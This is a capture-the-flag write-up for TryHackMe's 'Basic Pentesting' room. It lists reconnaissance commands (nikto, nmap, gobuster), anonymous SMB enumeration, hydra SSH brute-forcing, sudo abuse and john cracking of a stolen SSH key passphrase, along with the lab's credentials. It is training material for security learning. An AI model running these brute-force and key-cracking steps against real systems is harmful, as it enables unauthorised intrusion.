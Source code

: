 <div align="center">
  
# بسم الله الرحمن الرحيم  

</div>

# TryHackMe: Basic Pentesting Writeup by Mohammed (Azima)

![image](https://github.com/user-attachments/assets/c3c5a6b8-006f-43aa-8247-8631cd509998)


**Room Link:** [Basic Pentesting](https://tryhackme.com/room/basicpentestingjt)  
**Difficulty:** Easy  

## 1. Reconnaissance

### Nikto Scan
```bash
nikto -h http://10.10.140.120/
```
![image](https://github.com/user-attachments/assets/27960e1b-c49b-4bdb-af65-cb6403c6beb3)

#### Really simple scan and Got me as Directory which Got from goBuster also You can skip it
### Nmap Scan
```bash
nmap -sV -A -T4 <TARGET_IP>
```
## Open Ports and Services

### Port 22 (SSH)
- **Service**: OpenSSH 7.2p2 Ubuntu 4ubuntu2.4
- **Details**:
  - SSH host keys found (RSA, ECDSA, ED25519)
  - Ubuntu Linux OS indication

### Port 80 (HTTP)
- **Service**: Apache httpd 2.4.18 (Ubuntu)
- **Details**:
  - Server header confirms Apache/2.4.18 on Ubuntu
  - No title returned (text/html content)

### Ports 139/445 (SMB)
- **Service**: Samba smbd 4.3.11-Ubuntu
- **Details**:
  - Workgroup: WORKGROUP
  - NetBIOS computer name: BASIC2
  - Samba version: 4.3.11-Ubuntu
  - Security mode: Message signing enabled but not required
  - Guest access allowed
  - OS identification as Windows 6.1 (Samba's Windows compatibility layer)

### Port 8009 (AJP13)
- **Service**: Apache Jserv (Protocol v1.3)
- **Details**:
  - Supported methods: GET, HEAD, POST, OPTIONS

### Port 8080 (HTTP)
- **Service**: Apache Tomcat 9.0.7
- **Details**:
  - Possible open proxy
  - Tomcat default page visible

### Web Enumeration
```bash
gobuster dir -u http://<TARGET_IP> -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

**Discovered:**
- `/development` - Contains two files:
  - `dev.txt`
 
    
    ![image](https://github.com/user-attachments/assets/38100a51-be7e-47a9-a506-d0f52a92422a)

  - `j.txt`
 
    
    ![image](https://github.com/user-attachments/assets/bd39dc78-a756-42e3-a095-2e126c7f46cf)

- `/server-status` - Gives (Forbidden:
You don't have permission to access /server-status on this server.)

## 2. Exploitation

### SMB Enumeration
```bash
smbclient -L //<TARGET_IP> -N
```
Found an anonymous share.
Made Ls to see Files Then made get staff.txt to download the file and then opened it and found that 

![image](https://github.com/user-attachments/assets/a0455013-9802-4ffb-97a4-d0861161de3e)


### Brute-Forcing SSH
```bash
hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://<TARGET_IP>
```

**Credentials Found:**
- **Username:** jan
- **Password:** armando

**SSH Access:**
```bash
ssh jan@<TARGET_IP>
```

## 3. Privilege Escalation

### Checking Sudo Permissions
```bash
sudo -l
```
Discovered jan could run `/bin/bash` as user kay:
```bash
sudo -u kay /bin/bash
```

### Accessing Kay's SSH Key
Found private key at `/home/kay/.ssh/id_rsa`

**Cracking Process:**
```bash
python /usr/share/john/ssh2john.py id_rsa > kay_hash.txt
john --wordlist=/usr/share/wordlists/rockyou.txt kay_hash.txt
```
**Cracked Passphrase:** `beeswax`

**Logged in as kay:**
```bash
ssh -i id_rsa kay@<TARGET_IP>
```

### Root Flag
Found in `/root/root.txt` after further enumeration.

## 4. Lessons Learned
- 🚨 **Weak Passwords:** Default credentials (jan:armando) allowed initial access
- ⚠️ **Misconfigured Sudo:** Improper sudo permissions enabled privilege escalation
- 🔑 **Exposed SSH Keys:** Private keys without strong passphrases are dangerous

---

🔗 **More Writeups:** [My GitHub Security Writeups](https://github.com/Mohammed-Abdelaziem/Writeups)
